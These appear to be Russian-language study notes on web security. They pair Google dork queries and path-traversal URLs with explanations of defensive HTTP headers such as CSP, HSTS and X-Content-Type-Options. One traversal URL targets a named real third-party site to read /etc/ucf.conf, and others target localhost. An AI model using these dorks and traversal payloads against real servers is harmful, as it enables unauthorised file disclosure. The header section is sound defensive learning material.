 https://www.colorado.edu/cmci/academics/journalism/international-media-certificate-application

открытые скрипты:

```
inurl:"forcedownload.php?file="
inurl:"filedown.php?file="
inurl:"file.php?file="
https://www.svamgroup.ru/download/file.php?file=/upload/iblock/9ac/logotip-klaster_nadpis.pdf
https://www.svamgroup.ru/download/file.php?file=../../../../../../../etc/ucf.conf
```

http://localhost:8888/filedownload.php?file=database.sql
http://localhost:8888/filedownload.php?file=/../../../etc/ucf.conf

## Дорки

Дорки - запросы для получения закрытой информации используя поисковые операторы

https://www.exploit-db.com/google-hacking-database

# Заголовки

https://habr.com/ru/companies/southbridge/articles/471746/

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

https://observatory.mozilla.org/

Content-Security-Policy

CSP применяется, чтобы предотвращать межсайтовый скриптинг — путем определения, какие ресурсы могут быть загружены.


Strict-Transport-Security

Этот заголовок сообщает браузеру, что на сайт заходить можно только по протоколу HTTPS
Strict-Transport-Security: max-age=3600; includeSubDomains

Время, в секундах, которое браузер должен помнить, что сайт доступен только с помощью HTTPS.
Если этот опциональный параметр задан, то правило также применяется ко всем саб-доменам сайта.

X-Content-Type-Options

Благодаря этому заголовку браузеры придерживаются типов MIME, установленных приложением, что помогает предотвратить часть атак с межсайтовым скриптингом.

X-Content-Type-Options: nosniff

Блокирует запрос, если запрошенный тип:

- "style" и его MIME не "text/css", или
- "script" и его MIME не JavaScript MIME-тип

X-XSS-Protection - Этот заголовок приказывает браузеру прервать выполнение обнаруженных атак межсайтового скриптинга.

X-XSS-Protection: 1; mode=block
